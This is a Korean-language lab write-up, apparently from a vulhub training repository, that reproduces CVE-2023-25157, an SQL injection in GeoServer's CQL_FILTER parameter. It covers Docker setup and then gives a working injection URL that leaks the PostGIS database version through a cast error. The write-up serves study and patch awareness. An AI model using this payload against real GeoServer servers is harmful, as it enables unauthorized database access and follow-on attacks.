# Geoserver/CVE-2023-25157
---
##### Contributor
- 최석규


#### 요약
- GeoServer는 자바로 만들어진 서버이며, 지리 정보를 편집 및 공유할 수 있는 서비스를 제공한다.
- 2.22.1과 2.21.4 이전 버전에서 SQL injection이 있다.
- OGC (Open Geospatial Consortium) 표준에 의해 정의된 필터 및 함수식에서 발견 되었다.
- URL 파라미터에 postgis를 포함하는 workspace의 이름과 타입을 삽입 시 데이터베이스 버전 정보가 노출되는 취약점이다.


참고 자료
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf



#### 환경구성
- ```docker-compose up -d```
- ```http://your-ip:8080/geoserver```로 geosever 확인
- workspace name : vulhub
- Data store name : pg
- Feature type name : example
- One of attribute from feature type: name
- 위와 같은 구성 확인

  

#### SQL 구문 삽입
- ```http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true```

#### 결과

![image](https://github.com/ANG-web/whitehat-school-vulhub/assets/70057651/d292375b-c2a2-4a89-92ae-261bf0ffa346)



#### 정리
- geoserver에서 postgis 데이터베이스를 사용하는 작업공간에 이름과 타입을 매개변수로 넘길 경우 데이터베이스의 버전 정보가 노출된다.
- 이 취약점은 데이터베이스 정보를 활용해 추가적인 2차 공격이 일어날 수 있기 때문에 빠른 패치가 필요하다.
